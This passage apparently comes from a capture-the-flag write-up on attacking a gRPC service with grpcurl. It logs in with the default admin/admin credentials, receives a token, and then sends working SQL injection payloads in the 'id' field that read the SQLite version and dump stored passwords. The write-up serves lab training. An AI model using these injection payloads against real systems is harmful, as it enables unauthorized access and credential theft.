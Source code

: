 ```console
$ grpcurl -v -plaintext -d '{"username":"admin", "password":"admin"}' $t:50051 SimpleApp.LoginUser

Resolved method descriptor:
rpc LoginUser ( .LoginUserRequest ) returns ( .LoginUserResponse );

Request metadata to send:
(empty)

Response headers received:
content-type: application/grpc
grpc-accept-encoding: identity, deflate, gzip

Response contents:
{
  "message": "Your id is 45."
}

Response trailers received:
token: b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2OTk5MTEwOTd9.Jjn5E_NhnueHtZGArpgMaYxj5nP_1TA2GgT_iREv-HA'
Sent 1 request and received 1 response
```

But the `getInfo` method throws an error:

```console
$ grpcurl -plaintext -H "token: $token" -d '{"id":"564"}' ${t}:50051 SimpleApp.getInfo
ERROR:
  Code: Unknown
  Message: Unexpected <class 'TypeError'>: 'NoneType' object is not subscriptable
^ rc=66
```

## Exploit

The `getInfo` method is vulnerable to a SQLi via the `id` parameter. I'm able to confirm the database is `sqlite`:

```console
$ grpcurl -plaintext -H "token: $token" -d '{"id":"0 union select sqlite_version()--"}' ${t}:50051 SimpleApp.getInfo
{
  "message": "3.31.1"
}
```

```console
$ grpcurl -plaintext -H "token: $token" -d '{"id":"0 union select password from accounts;"}' ${t}:50051 SimpleApp.getInfo
{
  "message": "HereIs[...]"
}
```
